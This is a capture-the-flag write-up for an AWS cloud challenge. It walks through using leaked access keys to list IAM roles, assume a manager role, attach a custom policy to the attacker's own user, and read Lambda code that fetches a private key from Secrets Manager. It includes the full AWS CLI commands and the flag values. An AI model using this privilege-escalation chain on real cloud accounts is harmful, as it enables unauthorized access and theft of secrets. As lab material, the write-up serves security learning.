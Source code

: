 Downloading the [markdown file](https://pastebin.com/ifQMqnU3) gives us `flag-7fa969573c3ff2190e892095166cf71635eca0be` along with a set of instructions to configuring AWS CLI.
Following through the instructions of downloading, installing and configuring AWS CLI with the secret access key provided to us in the markdown file, we can run the following command to get a list of roles our AWS user can assume:
`aws iam list-roles --profile svc_iam`

#### Flag 4
The role `GOD_IAM-Manager-Role` can be assumed by `GOD_svc_iam`:
```
"Statement": [
    {
        "Effect": "Allow",
        "Principal": {
            "AWS": "arn:aws:iam::274186580685:user/GOD_svc_iam"
        },
        "Action": "sts:AssumeRole"
    }
]
```

```
aws iam list-role-policies --role-name GOD_IAM-Manager-Role --profile svc_iam
aws iam get-role-policy --role-name GOD_IAM-Manager-Role --policy-name GOD_AttachCustomPolicies --profile svc_iam
```

The role `GOD_IAM-Manager-Role` has the role policy `GOD_AttachCustomPolicies` allowing to attach to a user the managed policies matching the pattern `GOD_Custom*`.

```
aws iam list-policies --profile svc_iam
aws iam get-policy-version --policy-arn arn:aws:iam::274186580685:policy/GOD_CustomDebugEmployeeReview --version-id v1 --profile svc_iam
```
The managed policy `GOD_CustomDebugEmployeeReview` awards privileges to get and invoke a lambda named `GOD_DebugEmployeeApp`.

```
aws sts assume-role --role-arn 'arn:aws:iam::274186580685:role/GOD_IAM-Manager-Role' --role-session-name iam --profile svc_iam
```
By assuming the role `GOD_IAM-Manager-Role`, we can get an access key as the role.
```
aws iam attach-user-policy --user-name GOD_svc_iam --policy-arn arn:aws:iam::274186580685:policy/GOD_CustomDebugEmployeeReview --profile god_iam_manager
```
With this access key, we can attach the managed policy to `GOD_svc_iam` (our initial user profile) and then retrieve the Lambda code for: `flag-5aac692710f20e627fc5792d9c06f958238d0f51`.
```
aws lambda get-function --function-name 'GOD_DebugEmployeeApp' --region us-east-1 --profile svc_iam
```
The Lambda has the function `get_private_key` which gets the key from Secrets Manager. 

However as it was not directly accessible, we were unable to proceed due to time running short and stopped at the fourth flag.
